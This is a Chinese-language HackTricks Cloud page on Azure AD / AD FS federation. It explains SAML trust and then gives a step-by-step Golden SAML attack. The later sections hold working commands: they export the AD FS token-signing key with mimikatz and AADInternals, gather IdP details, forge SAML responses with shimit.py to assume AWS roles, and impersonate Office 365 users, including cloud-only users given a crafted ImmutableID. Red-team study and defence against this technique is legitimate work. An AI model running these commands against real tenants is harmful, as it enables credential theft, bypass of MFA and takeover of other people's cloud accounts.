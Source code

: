 # Az - Federation

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**联邦**是一组建立了**信任**的**域**。信任的级别可能有所不同，但通常包括**身份验证**，几乎总是包括**授权**。一个典型的联邦可能包括一组已建立**信任**的**组织**，以便对一组资源进行**共享访问**。

您可以将**本地**环境与**Azure AD**进行**联邦**，并使用此联邦进行身份验证和授权。此登录方法确保所有用户**身份验证在本地**进行。此方法允许管理员实施更严格的访问控制级别。与**AD FS**和 PingFederate 的联邦是可用的。

<figure><img src="../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

基本上，在联邦中，所有**身份验证**都发生在**本地**环境中，用户在所有受信任的环境中体验单点登录（SSO）。因此，用户可以使用其**本地凭据**访问**云**应用程序。

**安全断言标记语言 (SAML)** 用于在提供者之间**交换**所有身份验证和授权**信息**。

在任何联邦设置中，有三个参与方：

* 用户或客户端
* 身份提供者 (IdP)
* 服务提供者 (SP)

(图片来自 https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

1. 最初，用户访问一个应用程序（服务提供者或 SP，例如 AWS 控制台或 vSphere Web 客户端）。根据具体实现，此步骤可能会被绕过，直接将客户端引导到 IdP（身份提供者）。
2. 随后，SP 确定适当的 IdP（例如，AD FS，Okta）进行用户身份验证。然后，它构建一个 SAML（安全断言标记语言）AuthnRequest，并将客户端重定向到所选的 IdP。
3. IdP 接管，进行用户身份验证。身份验证后，IdP 制定一个 SAMLResponse，并通过用户转发给 SP。
4. 最后，SP 评估 SAMLResponse。如果成功验证，表明与 IdP 之间存在信任关系，则用户被授予访问权限。这标志着登录过程的完成，允许用户使用该服务。

**如果您想了解更多关于 SAML 身份验证和常见攻击的信息，请访问：**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## 侧向移动

* AD FS 是基于声明的身份模型。
* “..声明只是关于用户的语句（例如，姓名、身份、组），主要用于授权访问位于互联网上任何地方的基于声明的应用程序。”
* 用户的声明写入 SAML 令牌中，然后由 IdP 签名以提供机密性。
* 用户通过 ImmutableID 进行识别。它是全局唯一的，并存储在 Azure AD 中。
* ImmutableID 存储在本地作为 ms-DS-ConsistencyGuid，供用户使用，和/或可以从用户的 GUID 派生。
* 更多信息请参见 [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**黄金 SAML 攻击：**

* 在 ADFS 中，SAML 响应由令牌签名证书签名。
* 如果证书被泄露，则可以作为任何同步到 Azure AD 的用户进行身份验证！
* 就像我们的 PTA 滥用一样，用户的密码更改或 MFA 不会产生任何影响，因为我们伪造了身份验证响应。
* 可以从 AD FS 服务器提取证书，具有 DA 权限，然后可以从任何连接到互联网的机器上使用。
* 更多信息请参见 [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### 黄金 SAML

**身份提供者 (IdP)** 生成 **SAMLResponse** 以授权用户登录的过程至关重要。根据 IdP 的具体实现，**响应**可能会使用 **IdP 的私钥**进行**签名**或**加密**。此过程使 **服务提供者 (SP)** 能够确认 SAMLResponse 的真实性，确保它确实是由受信任的 IdP 发出的。

可以与 [黄金票证攻击](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket) 相提并论，其中用于验证用户身份和权限的密钥（黄金票证的 KRBTGT，黄金 SAML 的令牌签名私钥）可以被操纵以**伪造身份验证对象**（TGT 或 SAMLResponse）。这允许冒充任何用户，授予对 SP 的未授权访问。

黄金 SAML 提供某些优势：

* 它们可以**远程创建**，无需成为相关域或联邦的一部分。
* 即使启用**双因素身份验证 (2FA)**，它们仍然有效。
* 令牌签名的**私钥不会自动续订**。
* **更改用户的密码不会使**已生成的 SAML 无效。

#### AWS + AD FS + 黄金 SAML

[活动目录联邦服务 (AD FS)](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\)) 是一项 Microsoft 服务，促进受信任商业伙伴之间的**身份信息安全交换**（联邦）。它本质上允许域服务与联邦内的其他服务提供者共享用户身份。

由于 AWS 信任被泄露的域（在联邦中），可以利用此漏洞来潜在地**获取 AWS 环境中的任何权限**。该攻击需要**用于签名 SAML 对象的私钥**，类似于在黄金票证攻击中需要 KRBTGT。访问 AD FS 用户帐户足以获取此私钥。

执行黄金 SAML 攻击的要求包括：

* **令牌签名私钥**
* **IdP 公共证书**
* **IdP 名称**
* **角色名称（要承担的角色）**
* 域\用户名
* AWS 中的角色会话名称
* 亚马逊账户 ID

_只有加粗的项目是强制性的。其他项目可以根据需要填写。_

要获取**私钥**，需要访问**AD FS 用户帐户**。从那里，可以使用 [mimikatz](https://github.com/gentilkiwi/mimikatz) 等工具从个人存储中**导出私钥**。要收集其他所需信息，可以使用 Microsoft.Adfs.Powershell snapin，如下所示，确保您以 ADFS 用户身份登录：
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
使用所有信息，可以忘记一个有效的 SAMLResponse，作为您想要冒充的用户，使用 [**shimit**](https://github.com/cyberark/shimit)**:**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

### 本地 -> 云
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
也可以为仅云用户创建 ImmutableID 并冒充他们。
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
